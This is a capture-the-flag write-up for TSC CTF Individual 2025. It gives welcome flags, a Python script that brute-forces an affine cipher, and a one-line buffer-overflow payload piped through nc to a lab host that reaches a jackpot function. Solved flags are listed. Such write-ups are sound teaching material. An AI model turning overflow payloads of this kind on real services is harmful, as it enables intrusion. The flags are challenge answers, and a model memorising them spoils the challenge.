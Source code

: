 # TSC CTF Individual 2025
CTFTime : https://ctftime.org/event/2598/

Date : Mon, 13 Jan. 2025, 09:00 UTC+7 — Thu, 16 Jan. 2025, 09:00 UTC+7

> [!NOTE]
> Capturing the flag solo as **_zenCipher_** 

<details>
    <summary><b>Table of contents</b></summary>

1. [Welcome](#-welcome)
   - [Free flag](#free-flag)
   - [Discord](#discord)
2. [Crypto](#-crypto)
   - [classic](#classic)
   <!-- - [very simple login](#very-simple-login) -->
3. [Pwn]()
   - [gamble_bad_bad](#gamble_bad_bad)
</details>

# 👋 Welcome
## Free flag
Just select all of the text, 
[gambar desc]
**Flag :**
```flag
TSC{W3llc0me_t0_TSC2O2SIlIllI}
```

## Discord
[gambar desc]
Just enter to TSC's discord and explore it
```flag
TSC{w31c0m3_t0_t5cc7f2025_d15c0rd!!!}
```


# 🔏 Crypto
## classic
[gambar desc]

**Attachment file :** [share.tgz](./share.tgz)

So, basically, it's just a [Affine Cipher](https://en.wikipedia.org/wiki/Affine_cipher) chall. It will do transformation and do this aritmetic operation to get the cipher text. `C = (A × P + B) mod N`.
We can use the formula to get the plain text. The formula is `P=(C−B)×A 
−1 mod N`. So, use this script to solve it.

```python
import string

# Charset used in encryption
charset = string.digits + string.ascii_letters + string.punctuation

# Encrypted string (ciphertext)
encrypted_string = "o`15~UN;;U~;F~U0OkW;FNW;F]WNlUGV"

# Length of the charset
charset_length = len(charset)

# Function to decrypt using guessed A and B
def decrypt(encrypted_string, A, B, charset):
    mod_inverse_A = pow(A, -1, len(charset))
    decrypted = ""
    for c in encrypted_string:
        original_index = (charset.find(c) - B) * mod_inverse_A % len(charset)
        decrypted += charset[original_index]
    return decrypted

# Brute-force A and B
for A in range(2**16):  # Limiting the range for practicality; adjust as needed
    for B in range(2**16):
        try:
            decrypted_flag = decrypt(encrypted_string, A, B, charset)
            if decrypted_flag.startswith("TSC{"):  # Check for the correct flag format
                print(f"Found A: {A}, B: {B}")
                print("Decrypted flag:", decrypted_flag)
                break
        except ValueError:
            continue

```

**Flag :**
```flag
TSC{c14551c5_c1ph3r5_4r5_fr4g17e}
```

<!-- ## very simple login
[gambar desc]

**Flag :**
```flag
TSC{Wr0nG_HM4C_7O_L3A_!!!}
``` -->

# 💻 Pwn
## gamble_bad_bad
[gambar desc]

**Attachment file :** [main.cpp](./main.cpp)

Because the `game.jackpot_value` gets input user only takes 20 bytes of buffer. So, we can overflow it to get into **jackpot()** function using this payload
```sh
AAAAAAAAAAAAAAAAAAAA777 | nc 172.31.0.2 1337
```

**Flag :**
```flag
TSC{Gamb1e_Very_bad_bad_but_}
```

<br><br>

========================================================

Thanks for read this writeup. If u wanna support me, buy me a coffee [here](https://ko-fi.com/abiabdillah) or click button below

[![PayPal](https://img.shields.io/badge/PayPal-00457C?style=for-the-badge&logo=paypal&logoColor=white)](https://paypal.me/abiabdillah) [![Ko-Fi](https://img.shields.io/badge/Ko--fi-F16061?style=for-the-badge&logo=ko-fi&logoColor=white)](https://ko-fi.com/abiabdillah)